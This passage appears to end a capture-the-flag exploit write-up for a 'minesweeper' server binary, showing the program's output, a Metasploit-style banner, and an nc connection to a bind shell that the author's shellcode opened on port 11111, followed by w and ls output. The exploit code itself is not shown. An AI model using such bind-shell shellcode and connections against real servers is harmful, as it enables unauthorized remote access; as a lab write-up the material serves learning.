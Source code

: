 ```
Invalid option, please try again N, I, or Q please!

Hi. Welcome to Minesweeper. Please select an option:
1) N (New Game)
2) Initialize Game(I)
3) Q (Quit)

Please enter in the dimensions of the board you would like to set in this format: B X Y

HI THERE!!
/\x07  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |''''''''''''|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            / \            | |_____________\_______    |
  |           /   \           | |==[--- >]============\   |
  |          /     \          | |______________________\  |
  |         / RECON \         | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        /         \        |  *********************    |
  +---------------------------+---------------------------+
                                                           
IIIIII    dTb.dTb        _.---._       
  II     4'  v  'B   ."""" /|\`."""".
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'  
IIIIII     'YvP'       `-.__|__.-'     
-msf                                   
Please send the string used to initialize the board. Please send X * Y bytes follow by a newlineHave atleast 1 mine placed in your board, marked by the character X

[*] Switching to interactive mode
```

Because we are attacking a server, I just had my shellcode bind a shell to port `11111` which we can connect to:

```
$    nc 127.0.0.1 11111
w
 03:51:43 up  9:56,  1 user,  load average: 0.19, 0.11, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               17:56   ?xdm?  10:05   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --session=ubuntu
ls
back.py
core
exploit.py
heapLeak.py
jmp.asm
jmp.o
minesweeper
notes
readme.md
```

Just like that, we popped a shell!